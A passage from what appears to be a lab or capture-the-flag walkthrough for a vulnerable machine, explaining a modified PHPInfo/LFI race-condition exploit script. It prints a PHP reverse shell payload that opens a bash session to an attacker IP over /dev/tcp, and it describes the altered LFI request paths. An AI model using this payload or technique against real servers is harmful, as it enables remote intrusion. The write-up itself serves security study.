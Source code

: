     - The `getOffset()` function determines the position of `[tmp_name]` in the output of `phpinfo()` to locate the file path in the server’s temporary directory.
    - This is used later to include the uploaded file by its temporary name.
4. **Threaded Attack**:
    
    - The script uses threading to speed up the exploitation process.
    - The `ThreadWorker` class handles multiple attempts, trying to include the shell through the LFI exploit.
    - The script stops when the shell is successfully included, providing access to the server.
5. **Usage**:
    
    - The script requires at least the hostname of the target.
    - It has optional arguments for port and the number of threads (defaulting to 80 and 10, respectively).


Key Changes

1. **Reverse Shell Payload**:
    
    - In the `setup()` function, the `PAYLOAD` string was modified. The previous payload wrote a PHP file with a simple command execution. Now, the payload writes a reverse shell command:

```py 
    <?php system("bash -c 'bash -i >& /dev/tcp/192.168.1.93/443 0>&1'");?>
```


**Step 15: Reverse Shell and LFI Injection**

This command establishes a reverse shell connection back to the attacker's machine at IP `192.168.1.93` on port `443`, giving the attacker remote access to the compromised system.

**Modified Target File and Path**:

- The path in the POST request was changed from `phpinfo.php` to `info.php`. This indicates the target file on the server has been updated, possibly due to differences in the target environment.
- The LFI request now targets `index.php` with a query parameter `filename`, suggesting a different LFI vulnerability path or parameterization.
  
**Updated LFI Injection String**:
- The LFI URL structure in `LFIREQ` now uses `%s` with the `filename` parameter, which may be specific to the target application.

**Escape Characters for HTML**:
- The search term for `[tmp_name] =>` was updated to handle HTML entity encoding as `[tmp_name] =&gt;`, which is common in PHPInfo output displayed in HTML. This change helps locate the temporary file path in cases where the output is HTML-encoded.

**Next Step: Running the Script**

We will now execute the script to exploit the identified vulnerabilities and gain remote access.
![](/assets/post/infovore1/php.png)
